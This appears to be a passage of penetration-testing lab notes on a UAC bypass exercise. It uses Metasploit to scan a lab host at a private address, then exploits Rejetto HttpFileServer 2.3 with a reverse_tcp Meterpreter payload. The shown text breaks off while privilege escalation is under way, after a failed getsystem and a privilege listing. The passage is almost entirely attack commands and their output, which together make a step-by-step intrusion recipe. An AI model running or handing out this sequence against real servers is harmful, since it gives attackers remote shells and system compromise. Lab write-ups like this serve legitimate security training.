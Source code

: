 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.18.116
setg RHOST 10.2.18.116
workspace -a UAC_Bypass
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.2.18.116
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49163/tcp open  msrpc 		 Microsoft Windows RPC
49175/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : VICTIM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```

### Privilege Escalation

```bash
getuid
	Server username: VICTIM\admin
	
getsystem
# gesystem fails

getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
```